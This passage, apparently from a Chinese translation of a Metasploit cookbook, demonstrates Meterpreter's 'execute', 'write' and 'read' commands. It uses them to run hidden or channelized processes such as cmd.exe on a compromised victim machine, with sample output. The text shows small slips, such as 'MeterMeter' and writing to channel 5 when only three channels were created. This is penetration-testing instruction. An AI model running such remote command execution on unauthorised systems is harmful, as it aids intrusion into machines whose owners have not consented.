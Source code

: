 MeterMeter 为我们提供了一个名为 `execute`的特定命令，可用于启动多个通信通道。首先，让我们运行 `execute -h`命令查看可用选项：

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.
OPTIONS:
-H Create the process hidden from view.
-a <opt> The arguments to pass to the command.
-c Channelized I/O (required for interaction).
-d <opt> The 'dummy' executable to launch when using -m.
-f <opt> The executable command to run.
-h Help menu.
-i Interact with the process after creating it.
-k Execute process on the meterpreters current desktop
-m Execute from memory.
-s <opt> Execute process in a given session as the session user
-t Execute process with currently impersonated thread token 
```

您可以通过 `execute`命令查看我们可用的各种参数。让我们在设置多个通道时使用其中一些参数。

## 怎么做。。。

从创建通道开始，我们将使用 `-f`操作符和 `execute`命令：

```
meterpreter > execute -f notepad.exe -c
Process 5708 created.
Channel 1 created. 
```

请注意不同参数的使用。 `-f`参数用于设置可执行命令， `-c`运算符用于设置信道化 I/O。现在我们可以再次运行 execute 命令启动另一个信道，而不终止当前信道：

```
meterpreter > execute -f cmd.exe -c
Process 4472 created.
Channel 2 created.
meterpreter > execute -f calc.exe -c
Process 6000 created.
Channel 3 created. 
```

现在我们有三个不同的频道同时在受害者机器上运行。要列出可用通道，我们可以使用 `channel -l`命令。如果我们想在通道上发送一些数据或写入一些内容，我们可以使用 `write`命令，后跟我们想写入的通道 ID。让我们继续在我们的一个活动频道中写一条消息：

```
meterpreter > write 5
Enter data followed by a '.' on an empty line:
Metasploit!!
.
[*] Wrote 13 bytes to channel 5. 
```

执行 `write`命令和通道 ID 提示我们输入数据，后面跟着一个点。我们在频道上成功地写了 `Metasploit!!`。为了读取任何通道的数据，我们可以使用后跟通道 ID 的 `read`命令。
